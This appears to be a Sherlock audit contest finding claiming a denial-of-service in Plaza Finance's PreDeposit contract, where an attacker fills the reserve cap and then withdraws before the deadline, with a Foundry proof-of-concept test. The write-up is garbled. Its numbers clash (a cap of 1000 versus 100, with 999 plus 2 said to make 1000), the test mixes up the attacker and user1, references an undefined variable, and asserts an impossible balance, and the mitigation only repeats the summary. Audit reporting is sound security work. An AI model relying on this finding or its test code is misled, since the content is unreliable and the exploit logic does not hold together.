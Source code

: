 Wobbly Midnight Rattlesnake

High

# The Dos attack in predeposit contract.

Summary
There is validation for depositing limitation per users.
the attacker can deposit reserveCap  amount by more than twice depositing.
In this case, the another cannot deposit.
before the endtime, withdraw all.It makes nobody can create pool.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L125
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L150
Root Cause
For example,
if reserveCap  is 1000, the attacker deposits 999 and deposits 2 again.
so the balance of attacker is 1000 and reserveAmount becomes 1000.
nobody can deposit.
just before end time, withdraw all. it makes reserveAmount  as 0.

Internal Pre-conditions


External Pre-conditions


Attack Path
For example,
if reserveCap  is 100, the attacker deposits 999 and deposits 2 again.
so the balance of attacker is 1000 and reserveAmount becomes 1000.
nobody can deposit.
just before end time, withdraw all. it makes reserveAmount  as 0.

Impact
The attacker can prevent the creation of the pool, effectively disrupting the protocol's intended functionality(DOS).
Honest participants are unable to contribute to the pool because the reserve cap is monopolized by the attacker.
Such behavior can erode user trust in the protocol, as the system appears susceptible to manipulation.

PoC
```solidity
function testDoSAttackViaExcessiveDeposits() public {
    uint256 reserveCap = 100 ether;
    uint256 attackerDeposit1 = 999 ether;
    uint256 attackerDeposit2 = 2 ether;
    uint256 userDeposit = 100 ether;

    // Adjust the reserve cap for the test
    vm.startPrank(governance);
    preDeposit.increaseReserveCap(reserveCap);
    vm.stopPrank();

    // Attacker makes the first deposit of 99 ETH
    vm.startPrank(attacker); // user1 is the attacker
    reserveToken.approve(address(preDeposit), attackerDeposit1);
    preDeposit.deposit(attackerDeposit1);
    vm.stopPrank();
    vm.startPrank(user1);
    reserveToken.approve(address(preDeposit), attackerDeposit2);
    preDeposit.deposit(attackerDeposit2);
    assertEq(preDeposit.balances(user1), reserveCap, "Attacker's total balance mismatch");
    assertEq(preDeposit.reserveAmount(), reserveCap, "Reserve amount after second deposit mismatch");
    vm.stopPrank();
    vm.startPrank(user1);
    reserveToken.approve(address(preDeposit), userDeposit );
    vm.expectRevert(PreDeposit.DepositCapReached.selector);
    preDeposit.deposit(depositAmount);
    vm.stopPrank();
    vm.warp(preDeposit.depositEndTime() - 1);
    vm.startPrank(attacker);
    preDeposit.withdraw(reserveCap);
    assertEq(preDeposit.balances(attacker), 0, "Attacker's balance after withdrawal mismatch");
    assertEq(preDeposit.reserveAmount(), 0, "Reserve amount after withdrawal mismatch");
    vm.stopPrank();
}
```
Mitigation
There is depositing limitation per users.